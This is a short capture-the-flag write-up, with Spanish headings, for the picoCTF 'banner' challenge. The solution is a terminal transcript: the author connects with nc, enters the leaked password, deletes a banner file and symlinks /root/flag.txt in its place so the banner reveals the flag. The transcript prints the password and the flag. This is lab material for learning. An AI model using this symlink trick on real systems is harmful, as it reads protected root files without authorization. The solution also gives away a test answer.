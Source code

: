 ## Descripción
Can you abuse the banner?The server has been leaking some crucial information on `tethys.picoctf.net 53594`. Use the leaked information to get to the server.To connect to the running application use `nc tethys.picoctf.net 50352`. From the above information abuse the machine and find the flag in the /root directory.
## Solución
```
┌──(kali㉿kali)-[~/Documents/parcial_1]
└─$ nc tethys.picoctf.net 50352
*************************************
**************WELCOME****************
*************************************

what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
DEFCON
the first hacker ever was known for phreaking(making free phone calls), who was it?
John Draper
player@challenge:~$ rm /home/player/banner
rm /home/player/banner
player@challenge:~$ ls -s /root/flag.txt /home/player/banner
ls -s /root/flag.txt /home/player/banner
ls: cannot access '/home/player/banner': No such file or directory
4 /root/flag.txt
player@challenge:~$ ln -s /root/flag.txt /home/player/banner
ln -s /root/flag.txt /home/player/banner
player@challenge:~$ ^C
                                                                                                                    
┌──(kali㉿kali)-[~/Documents/parcial_1]
└─$ nc tethys.picoctf.net 50352
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_a0e119d4}


```
## Notas
## Referencias